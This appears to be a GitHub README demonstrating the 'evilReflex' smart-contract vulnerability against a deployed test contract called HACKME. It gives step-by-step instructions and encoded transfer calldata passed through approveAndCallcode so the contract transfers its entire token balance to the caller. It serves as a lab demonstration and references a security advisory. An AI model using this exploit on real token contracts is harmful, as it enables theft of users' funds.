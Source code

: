 ## What's this?

This is a simple test for evilReflex vulnerablility in smart constract.

## How to test?

##### Step 1：compile evilReflex.sol 

##### Step 2：deploy HACKME

eg:

```
Account Address： 0x62ba0a06ffc1d0a706172e1ed755b9b91f53a617
balance: 10090000000000000000000000

Contract address： 0x26336eb6761d7c6ac28251d5e20f63623fc16ad5
balance: 10090000000000000000000000
```

##### Step 3：encode 

transfer(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4,10090000000000000000000000) to bytecode like 0xa9059cbb0000000000000000000000005b38da6a701c568545dcfcb03fcb875f56beddc40000000000000000000000000000000000000000000858a3fefb18d88e400000

##### Step 4：call approveAndCallcode function and pass the following parameters:

```
approveAndCallcode(
    0xf8e81D47203A594245E36C48e151709F0C19fBe8,
    0,
    0xa9059cbb0000000000000000000000005b38da6a701c568545dcfcb03fcb875f56beddc40000000000000000000000000000000000000000000858a3fefb18d88e400000
 )
```

##### Step 5：Check your own account assets and you will find that the assets have increased and the contract assets have changed to zero.

#### Referer

https://blog.peckshield.com/2018/06/23/evilReflex/
